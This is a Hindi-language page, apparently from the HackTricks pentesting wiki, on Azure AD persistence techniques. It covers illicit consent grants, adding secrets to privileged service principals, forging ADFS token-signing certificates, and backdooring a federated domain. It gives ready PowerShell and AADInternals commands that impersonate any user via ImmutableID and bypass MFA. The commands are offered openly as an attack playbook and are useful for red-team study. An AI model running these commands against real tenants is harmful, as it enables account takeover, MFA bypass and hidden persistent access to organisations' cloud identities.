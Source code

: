 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### अवैध सहमति अनुदान

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित टेनेट के लिए) जिसे उच्च प्रभाव वाले अनुमतियों की आवश्यकता है जिसमें व्यवस्थापक की सहमति (यदि आप व्यवस्थापक हैं तो इसे स्वीकृत करें) - जैसे कि किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमलों** को **सफलता** की स्थिति में बहुत **लाभदायक** बनाने की अनुमति देगा।

इसके अलावा, आप अपने उपयोगकर्ता के रूप में उस एप्लिकेशन को स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### एप्लिकेशन और सेवा प्रमुख

एप्लिकेशन व्यवस्थापक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के विशेषाधिकारों के साथ, हम एक मौजूदा एप्लिकेशन में क्रेडेंशियल्स (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

यह **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों के साथ एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका **विशेषाधिकार प्राप्त प्रमाणीकरण व्यवस्थापक भूमिका** होगी क्योंकि यह वैश्विक व्यवस्थापकों का **पासवर्ड रीसेट** करने की अनुमति देती है।

यह तकनीक **MFA** को भी **बायपास** करने की अनुमति देती है।
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- प्रमाणपत्र आधारित प्रमाणीकरण के लिए
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

**DA विशेषाधिकार** के साथ ऑन-प्रेम AD पर, **नए Token signing** और **Token Decrypt certificates** बनाना और आयात करना संभव है जिनकी वैधता बहुत लंबी होती है। यह हमें **किसी भी उपयोगकर्ता के रूप में लॉग-इन** करने की अनुमति देगा जिसका ImuutableID हमें पता है।

**निम्नलिखित कमांड** को **ADFS सर्वर(s) पर DA के रूप में चलाएँ** नए certs बनाने के लिए (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, ऑटो रोलओवर को अक्षम करें और सेवा को पुनः प्रारंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA विशेषाधिकारों के साथ एक टेनेट पर, **एक नया डोमेन जोड़ना** संभव है (इसकी पुष्टि होनी चाहिए), इसके प्रमाणीकरण प्रकार को फेडरेटेड पर कॉन्फ़िगर करना और डोमेन को **एक विशिष्ट प्रमाणपत्र** (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर **विश्वास** करने के लिए कॉन्फ़िगर करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
